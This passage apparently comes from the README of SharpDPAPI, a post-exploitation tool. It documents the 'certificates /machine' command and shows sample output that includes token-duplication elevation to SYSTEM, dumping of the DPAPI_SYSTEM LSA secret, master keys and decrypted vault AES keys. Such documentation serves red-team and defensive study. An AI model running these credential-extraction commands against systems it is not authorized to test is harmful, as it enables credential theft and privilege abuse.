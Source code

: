     [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

    [*] SYSTEM master key cache:

    {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
    ...(snip)...


    [*] Triaging SYSTEM Vaults


    [*] Triaging Vault folder: C:\WINDOWS\System32\config\systemprofile\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

      VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
      Name               : Web Credentials
        guidMasterKey    : {0bd732d9-c396-4f9a-a69a-508632c05235}
        size             : 324
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32782/26128
        description      :
        aes128 key       : 74CE3D7BCC4D0C4734931041F6D00D09
        aes256 key       : B497F57730A2F29C3533B76BD6B33EEA231C1F51ED933E0CA1210B9E3A16D081

    ...(snip)...


#### certificates /machine

The **certificates /machine** command will use the machine certificate store to look for decryptable machine certificate private keys. `/mkfile:X` and `{GUID}:masterkey` are usable with the `/target:\[file|folder\]` command, otherwise SharpDPAPI will elevate to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine system encrypted DPAPI private certificate keys.

By default, only private keys linkable to an associated installed certificate are displayed. The `/showall` command will display ALL decrypted private keys.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe certificates /machine

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.10.0


    [*] Action: Certificate Triage
    [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
